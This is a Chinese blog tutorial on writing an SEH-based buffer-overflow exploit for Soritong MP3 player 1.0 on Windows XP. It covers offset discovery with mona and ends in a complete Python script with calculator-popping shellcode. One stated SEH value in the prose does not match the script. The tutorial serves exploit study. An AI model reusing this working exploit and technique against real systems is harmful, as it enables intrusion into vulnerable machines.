 title: exploit编写教程2：跳转到shellcode
date: 2015-12-16 10:23:48
tags: 
- 缓冲区溢出
- exploit 编写
categories: exploit 编写
---

这个是基于SEH的exploit，SEH的原理大家去搜索，网上有很多资料，本文就不赘述了。
<!-- more -->

# I、试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：[Soritong MP3 player 1.0](http://terenceli.github.io/assets/file/seh-exploit/soritong10.exe
)
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个畸形皮肤文件将触发Soritong MP3 player 1.0溢出。

# II、漏洞触发
用python创建一个ui.txt文件并放到skin\default文件夹下面
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 5000
f = open(filename,'w')
f.write(junk)
f.close()
```
打开Soritong，可以看到程序闪退。
使用Immunity Debugger加载Soritong，F9运行，然后查看SEH链（view -> SEH chain），发现next SEH和SEH handler都被 A 覆盖了
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez1aw1va0oj307f03pglt.jpg)

当异常发生时，程序会跳转到SEH handler去执行，通过将这个handler的值设置为程序自带模块的一个pop/pop/ret地址，能够实现程序跳转到next seh pointer去，在next seh中需要做的就是跳转到shellcode执行。shellcode的布局大致如下：
```
[junk][next seh][seh][shellcode]
```
next seh是一个跳转到shellcode的指令，seh是一个程序自带模块的p/p/r地址。
这里再解释一下pop pop ret指令的作用，当异常发生的时候，异常分发器创建自己的栈帧，会将EH handler成员压入新创的栈帧中，在EH结构中有一个域是EstablisherFrame。这个域指向异常注册记录(next seh)的地址并被压入栈中，当一个函数被调用的时候被压入的这个值都是位于ESP+8的地方。使用pop pop ret后，就会将next seh的地址放到EIP中。

# III、要精确定位 SEH 的偏移地址
需要构造特殊的唯一字符串模型来覆盖缓冲区
Immunity Debugger再次加载Soritong，在命令行窗口输入：
```
!mona create_pattern 5000
```

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez1b8xtm4nj30k404ugne.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\Soritong\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换ui.txt中的5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "ui.txt"

fp = open("p.txt",'r')
junk = fp.read()

f = open(filename,'w')
f.write(junk)
f.close()
```
将生成的ui.txt覆盖skin\default中的ui.txt
在Immunity Debugger中查看SEH chain：

![](http://ww3.sinaimg.cn/large/005CA6ZCjw1ez1bo95bd0j307f02dmxd.jpg)

nseh 的值为：35744134 ，在命令行输入
```
!mona pattern_offset 35744134
```
查找nseh偏移

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez1bq0ehlzj30ef04wwfs.jpg)

nseh的偏移为：584，则seh handler的偏移：584 + 4 =588

此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 584
nseh = 'B' * 4
seh = 'C' * 4
data = junk + nseh + seh
f = open(filename,'w')
f.write(data)
f.close()
```

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez1c47xmhvj307e032wep.jpg)

# Ⅳ、查找 p/p/r 指令序列
再次加载目标程序，在命令行窗口输入：
```
!mona rop
```
在rop.txt中查找合适的 p/p/r指令地址

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez1if82tnaj30el03njsl.jpg)

选用 0x1001dd61 （选地址时，要注意shellcode截断）

# V、构造最终的输入文件
一个short jmp机器码是eb，跟上跳转距离，跳过6字节的short jmp机器码为eb 06。所以使用0xeb,0x06,0x90,0x90覆盖 next seh。

最终的shellcode就是

junk:584字节 ‘A’

next seh:”\xeb\x06\x90\x90”

seh:”\x26\x80\x45\x00”

shellcode：完成功能的，随便找了一个弹计算器的

并且在最后加了一些垃圾数据
```
filename = "ui.txt"
junk = "A" * 584
nseh = "\xeb\x06\x90\x90"
seh = "\x61\xdd\x01\x10"
shellcode = ("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
"\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
"\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
"\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
"\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
"\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
"\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
"\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
"\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
"\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
"\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
"\x4e\x36\x43\x46\x42\x50\x5a")
junk2="\x90" * 1000;
data = junk + nseh + seh + shellcode + junk2
f = open(filename,'w')
f.write(data)
f.close()
```

运行目标程序，OK！！！！计算器成功弹出来了

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez1igyvjt5j30es08gtb2.jpg)

# Ⅵ、参考文献
[exploit编写笔记2——基于SEH的exploit](exploit编写笔记2——基于SEH的exploit)
<https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/>


